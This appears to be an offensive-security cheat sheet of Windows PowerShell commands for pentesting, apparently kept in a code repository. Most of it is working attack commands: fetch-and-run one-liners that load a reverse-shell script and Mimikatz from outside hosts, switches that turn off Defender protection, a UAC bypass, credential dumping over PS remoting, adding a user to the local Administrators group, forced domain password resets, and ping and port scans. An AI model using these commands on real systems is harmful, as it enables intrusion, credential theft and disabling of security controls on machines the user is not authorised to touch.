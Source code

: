 # Windows

## Install Windows Terminal

- [Windows Terminal](https://github.com/microsoft/terminal/releases)

## Install Kali WSL 

1. [Enable Virtual Platform & WSL features Windows](https://www.configserverfirewall.com/windows-10/please-enable-the-virtual-machine-platform-windows-feature-and-ensure-virtualization-is-enabled-in-the-bios/)
2. Install latest Kali Linux from Microsoft Store (Microsoft account not required)

## Download file

```powershell
certutil.exe -urlcache -f <url> <outfile>

iwr -uri <file_url> -Outfile <outfile>
```

## Download & Exec

```powershell
iex (New-Object Net.Webclient).DownloadString("<remote_ps1>")

# Reverse powershell x64
c:\windows\sysnative\windowspowershell\v1.0\powershell.exe IEX(new-object net.webclient).downloadstring('http://10.10.14.12/Invoke-PowerShellTcp.ps1')


$ss = New-PSSession -ComputerName <target>
Enter-PSSession -Session $ss
Invoke-Command -Session $ss -ScriptBlock { iwr -uri http://192.168.56.2/Invoke-Mimikatz.ps1 -OutFile .\Invoke-Mimikatz.ps1 ; . .\Invoke-Mimikatz.ps1 ; Invoke-Mimikatz }
```

---

## Runas

```bash
runas /netonly /user:<domain\user> "C:\Program Files\file.exe"
```

## Execution Policy

```powershell
powershell -ep bypass
```

## Contrained Language Mode

```powershell
$ExecutionContext.SessionState.LanguageMode

Invoke-Command -Session $ss -ScriptBlock  {$ExecitonContext,SessionState,LanguageMode}

```

## Applocker check

```powershell
Get-AppLockerPolicy -Effective | select -ExpandProperty rulecollections
```

## AV disable

```powershell
Set-MpPreference -DisableRealTimeMonitoring $true
Set-MpPreference -DisableIOAVProtection $true
```

## UAC bypass

```powershell
Invoke-EventVwrBypass -Command "powershell.exe whoami /all"
```

## Impersonate 

```powershell
# PlainText
$Password = ConvertTo-SecureString "<pass>" -AsPlainText -Force; $Credential = New-Object System.Management.Automation.PSCredential("<domain\user>", $Password);
Invoke-Command -ComputerName <target> -ScriptBlock { hostname; whoami } -Credential $Credential

# SecureString
$securepasswd = '01000000d08c9ddf0115d1118c7a00c04fc297eb0100000028bf2'
$passwd = $securepasswd | ConvertTo-SecureString
$passwd System.Security.SecureString
$creds = New-Object System.Management.Automation.PSCredential ("<domain>\administrator", $passwd)
Invoke-Command -ScriptBlock {net localgroup Administrators <domain>\<user> /add} -ComputerName <target> -Credential $creds
```

## Pivot

```powershell
$secure = New-PSSession -ComputerName <target>
Enter-PSSession -Session $secure
```

---

## Import PS1 module

```powershell
import-module <ps1_file>
. ./<ps1_file>
```
> Full path is sometimes mandatory for Import-Module !


## PS remoting

```powershell
New-PSSession -ComputerName <target.fqdn>
Invoke-command -ScriptBlock{Set-MpPreference -DisableIOAVProtection $true} -Session $sess
Import-Module .\Invoke-Mimikatz.ps1
Invoke-Command -ScriptBlock ${function:Invoke-Mimikatz} -Session $true

$sess = New-PSSession -ComputerName <target.fqdn>
Invoke-command -ScriptBlock{Set-MpPreference -DisableIOAVProtection $true} -Session $sess
Invoke-command -ScriptBlock ${function:Invoke-Mimikatz} -Session $sess
```



## Force Change password

```powershell
Import-Module .\PowerView.ps1
$SecPassword = ConvertTo-SecureString '<pwned_user_pass>' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('<domain\user>', $SecPassword)
$UserPassword = ConvertTo-SecureString '<target_user_newpass>' -AsPlainText -Force
Set-DomainUserPassword -Identity prodadmin -AccountPassword $UserPassword -Crendential $Cred

Set-ADAccountPassword -Identity <target_user> -NewPassword (ConvertTo-SecureString -AsPlainText '<new_pass>' -Force)
```



## Ping Scans

```powershell
1..255| foreach {Test-Connection -ComputerName "192.168.1.$_"}
```

---

## Port Scan

```powershell
1..1024 | % { echo ((new-object Net.Sockets.TcpClient).Connect("<target>",$_)) "$_ is open" } 2>out-null
```
